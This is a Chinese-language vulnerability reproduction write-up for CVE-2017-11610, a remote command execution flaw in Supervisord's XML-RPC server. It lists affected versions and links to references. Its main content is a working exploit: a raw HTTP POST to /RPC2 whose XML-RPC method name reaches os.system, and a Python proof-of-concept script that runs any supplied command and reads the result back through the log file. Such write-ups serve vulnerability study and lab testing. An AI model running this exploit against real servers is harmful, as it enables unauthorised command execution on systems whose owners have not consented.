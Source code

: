 # （CVE-2017-11610）Supervisord 远程命令执行漏洞

## 一、漏洞简介

Supervisor是一套进程控制系统，用于监视和控制类Unix系统上的进程。XML-RPC server是其中的一个XML-RPC服务器。 Supervisor中的XML-RPC服务器存在安全漏洞。远程攻击者可借助特制的XML-RPC请求利用该漏洞执行任意命令。

## 二、漏洞影响

supervisor 3.0.1之前的版本，3.1.4之前的3.1.x版本，3.2.4之前的3.2.x版本，3.3.3之前的3.3.x版本。

## 三、复现过程

直接执行任意命令：

```html
POST /RPC2 HTTP/1.1
Host: localhost
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 213

<?xml version="1.0"?>
<methodCall>
<methodName>supervisor.supervisord.options.warnings.linecache.os.system</methodName>
<params>
<param>
<string>touch /tmp/success</string>
</param>
</params>
</methodCall>
```

![image](images/img1.png)

### 关于直接回显的POC

@Ricter 在微博上提出的一个思路，甚是有效，就是将命令执行的结果写入log文件中，再调用Supervisord自带的readLog方法读取log文件，将结果读出来。

写了个简单的POC： [poc.py](https://github.com/vulhub/vulhub/blob/master/supervisor/CVE-2017-11610/poc.py "poc.py")，直接贴出来吧：

```python
#!/usr/bin/env python3
import xmlrpc.client
import sys


target = sys.argv[1]
command = sys.argv[2]
with xmlrpc.client.ServerProxy(target) as proxy:
    old = getattr(proxy, 'supervisor.readLog')(0,0)

    logfile = getattr(proxy, 'supervisor.supervisord.options.logfile.strip')()
    getattr(proxy, 'supervisor.supervisord.options.warnings.linecache.os.system')('{} | tee -a {}'.format(command, logfile))
    result = getattr(proxy, 'supervisor.readLog')(0,0)

    print(result[len(old):])
```

使用Python3执行并获取结果：./poc.py "http://your-ip:9001/RPC2" "command"：

![image](images/img2.png)

## 参考链接

https://vulhub.org/#/environments/supervisor/CVE-2017-11610/

https://www.leavesongs.com/PENETRATION/supervisord-RCE-CVE-2017-11610.html

https://blogs.securiteam.com/index.php/archives/3348

https://github.com/Supervisor/supervisor/commit/90c5df80777bfec03d041740465027f83d22e27b
